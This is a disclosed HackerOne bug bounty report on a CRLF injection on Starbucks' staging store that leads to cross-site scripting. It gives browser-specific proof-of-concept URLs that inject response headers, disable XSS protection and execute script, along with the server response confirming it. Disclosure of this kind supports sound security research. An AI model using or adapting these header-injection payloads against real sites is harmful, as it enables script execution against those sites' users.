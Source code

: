 # [stagecafrstore.starbucks.com] CRLF Injection, XSS

## Report Details
- **Report ID**: 192667
- **URL**: https://hackerone.com/reports/192667
- **State**: Closed
- **Severity**: low
- **Submitted**: 2016-12-20T08:42:53.161Z
- **Disclosed**: 2018-01-22T22:31:42.805Z

## Reporter
- **Username**: bobrov
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: starbucks

## Vulnerability Information
**Chrome PoC**
```
http://stagecafrstore.starbucks.com/%3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.domain%29%3C/script%3E
```

**FireFox PoC**
```
http://stagecafrstore.starbucks.com/%3f%0D%0ALocation://x:1%0D%0AContent-Type:text/html%0D%0AX-XSS-Protection%3a0%0D%0A%0D%0A%3Cscript%3Ealert(document.domain)%3C/script%3E
```

**HTTP Response**
```http
HTTP/1.1 301 Content-moved
Date: Tue, 20 Dec 2016 08:40:11 GMT
Server: WebServer
X-Original-link: /%3f%0D%0ALocation://x:1%0D%0AContent-Type:text/html%0D%0AX-XSS-Protection%3a0%0D%0A%0D%0A%3Cscript%3Ealert(document.domain)%3C/script%3E
X-XSS-Protection: 0
Location: //x:1
Content-Type: text/html
Content-Length: 98

<script>alert(document.domain)</script>
Content-Length: 0
X-OneLinkServiceType: onelink.fcgi
```

## Attachments
- Screenshot_at_12-42-40.png
